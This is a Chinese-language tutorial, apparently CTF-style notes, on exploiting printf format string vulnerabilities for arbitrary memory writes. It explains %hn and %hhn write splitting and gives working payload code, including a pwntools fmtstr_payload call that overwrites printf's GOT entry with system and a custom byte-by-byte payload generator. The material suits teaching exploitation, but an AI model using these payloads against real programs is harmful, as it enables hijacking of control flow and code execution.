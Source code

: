 ```html
对于 "%xxxc%11$hn%yyyc%12$hn" 的理解?
     当printf函数执行此参数时，实际上是向栈上地址所指向的内存写入在这之前打印出来的所有字符数量，所以到了%yyyc%12$hn的时候，前面已经打印了xxx个字符，因此在计算yyy的大小时需要考虑到已经打印了xxx个字符。
     一般情况下，我们可以把需要覆写的地址跟在此字符串后面，形如：
"%xxxc%11$hn%yyyc%12$hn" + padding + addr+ (addr+2)
     但也可以把地址放在前面：这种情况就要注意在计算xxx时，前面已经打印了8个字符(32bit下)，需要考虑进去
addr + (addr+2) +"%xxxc%11$hn%yyyc%12$hn"
```

>最容易想到的利用方式

想在addr_a这个地址写入b_context
 - 将a这个地址输入到栈上
 - 找到a这个地址是栈上第几个参数，假设为m
 - 如果直接 %b_contextc%m$n   （b_content是16进制数的10进制表示形式）

一般情况下 b_content 都是一个非常大的数，因此**在短时间内写完几乎不可能**；所以需要拆分，根据不同情况选择不同的拆分大小和方法，详情介绍请继续往下看“高级利用方法”介绍



#### 2. 高级利用方法
根据利用方式和场景的不同，以下将介绍两种不同常规的利用思路（附加实现代码）

##### 2.1  fsb漏洞只能触发一次

只能利用一次fsb漏洞，即可达到任意内存写。因为只能触发一次fsb漏洞，因此需要一次性把payload全部读入内存，这样做可能遇到的阻碍就是输入长度的限制。

根据把需要写入内容分割的细腻度的不同，本文提供一种现成工具实现 和 两种自定义代码实现，均可以实现通过利用一次fsb漏洞，达到任意地址写

###### 方法一：通过pwntools的fmtstr模块生成payload
```python
form pwn import *
payload2 = fmtstr_payload(7,{printf_got:system_addr})

//7是 %n$x 中的那个n
//printf_got是将要被覆写的地址
//system_addr是想要写入的数据
```


###### 方法二：将4字节地址分割成4个1字节写入

该方法是把4字节地址分成4个1字节，然后通过一次输入把参数全部布置到栈上，通过一次调用可以修改多处内存值。但是限制就是输入长度较长

>实现代码
```python
def generate_format(addr_value):
    payload = ''
    print_count = 0
    j = 0
    addr_part = ''
    for addr, value in addr_value:
        for i in range(4):
            one_byte = (value >> (8*i)) & 0xff
            #print one_byte
            payload += '%{0}c%{1}$hhn'.format((one_byte - print_count) % 0x100, 32 + i + j)
            print_count += (one_byte - print_count) % 0x100
            #print (one_byte - print_count) % 0x100
            addr_part += p32(addr + i)
        j += 4

    payload = payload.ljust(100, 'a')
    payload += addr_part
    return payload
```
